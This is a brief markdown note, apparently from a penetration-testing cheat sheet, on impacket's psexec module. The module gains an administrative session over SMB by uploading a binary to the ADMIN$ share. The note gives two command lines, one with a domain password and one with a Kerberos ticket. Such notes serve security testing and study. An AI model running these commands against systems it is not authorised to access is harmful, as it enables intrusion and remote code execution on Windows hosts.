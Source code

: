 ## This impacket module is used to gain administrative access over SMB.

## If the user has write permissions on the $ADMIN share, then the module uploads a malicious binary to it, then gives us a session.

#### 1) impacket-psexec 'DOMAIN.COM/USERNAME:PASSWORD'@IP_ADDRESS -dc-ip DC_IP

#### 2) impacket-psexec DOMAIN.COM/USERNAME@IP_ADDRESS -k -no-pass (Authenticate with kerberos ticket)
